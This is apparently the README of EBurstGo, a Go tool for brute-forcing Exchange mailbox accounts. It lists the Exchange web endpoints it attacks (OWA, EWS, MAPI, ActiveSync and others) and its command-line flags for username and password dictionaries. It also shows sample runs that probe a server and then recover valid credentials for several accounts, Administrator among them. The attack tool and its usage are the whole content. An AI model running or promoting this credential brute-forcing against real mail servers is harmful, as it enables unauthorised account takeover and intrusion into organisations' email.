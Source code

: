 # EBurstGo

利用 Exchange 服务器 Web 接口爆破邮箱账户

参考 [grayddq/EBurst](https://github.com/grayddq/EBurst) 项目使用 Go 语言重构

支持接口

```shell
/autodiscover
/owa/auth.owa # OWA & ECP
/ews
/mapi
/oab
/rpc
/Microsoft-Server-ActiveSync
/powershell
```

## Usage

usage

```shell
Usage of ./EBurstGo:
  -check
    	检测目标 Exchange 可用接口
  -debug
    	显示 Debug 信息
  -delay int
    	请求延时
  -domain string
    	AD 域名
  -mode string
    	指定 Exchange Web 接口
  -nocolor
    	关闭输出颜色
  -pass string
    	指定密码
  -passf string
    	密码字典
  -thread int
    	协程数量 (default 2)
  -url string
    	Exchange 服务器地址
  -user string
    	指定用户名
  -userf string
    	用户名字典
  -verbose
    	显示详细信息
```

check

```shell
$ ./EBurstGo -url https://192.168.30.11 -check
[*] 检测目标 Exchange 可用接口
[+] 存在 owa 接口 (/owa/auth.owa), 可以爆破
[+] 存在 powershell 接口 (/powershell), 可以爆破
[+] 存在 ecp 接口 (/owa/auth.owa), 可以爆破
[+] 存在 autodiscover 接口 (/autodiscover), 可以爆破
[+] 存在 mapi 接口 (/mapi), 可以爆破
[+] 存在 activesync 接口 (/Microsoft-Server-ActiveSync), 可以爆破
[+] 存在 oab 接口 (/oab), 可以爆破
[+] 存在 ews 接口 (/ews), 可以爆破
[+] 存在 rpc 接口 (/rpc), 可以爆破
```

brute

```shell
$ ./EBurstGo -url https://192.168.30.11 -domain hack-my.com -userf user.txt -passf pass.txt -mode ews
[*] 使用 ews 接口爆破: https://192.168.30.11
[*] 用户名:7 密码:9 共计:63
[+] 成功: Administrator:abcd1234!@#$
[+] 成功: Alice:Alice123!
[+] 成功: Bob:Bob123!
[+] 成功: Marry:Marry123!
[*] 耗时: 3.031753209s
```

todo
- `/powershell` 接口 (Kerberos 认证) 待支持
